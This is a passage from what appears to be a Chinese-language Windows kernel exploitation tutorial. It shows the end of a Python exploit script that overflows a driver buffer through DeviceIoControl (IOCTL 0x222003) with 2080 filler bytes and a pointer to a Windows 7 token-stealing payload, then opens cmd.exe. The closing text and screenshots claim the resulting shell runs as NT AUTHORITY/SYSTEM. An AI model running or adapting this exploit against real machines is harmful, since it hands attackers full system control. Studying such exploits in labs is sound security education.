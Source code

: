 ```
        return -1
    buf = "x41" * 2080 + struct.pack("&lt;L",TokenStealingPayloadWin7())
    bufSize  = len(buf)
    bufPtr = id(buf) + 20
    print "[+] Sending IOCTL request "
    kernel32.DeviceIoControl(hDevice, 0x222003, bufPtr, bufSize, None, 0,byref(lpBytesReturned)   , None)
    os.system('cmd.exe')
if __name__ == '__main__':
    main()
# EOF
```

这里获取到了Root权限

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01a5e1ce064c890aba.png)

如果我们检查该过程，您可以看到它作为NT AUTHORITY / SYSTEM运行。

[![](https://p1.ssl.qhimg.com/t01c0b57e87cf779378.png)](https://p1.ssl.qhimg.com/t01c0b57e87cf779378.png)
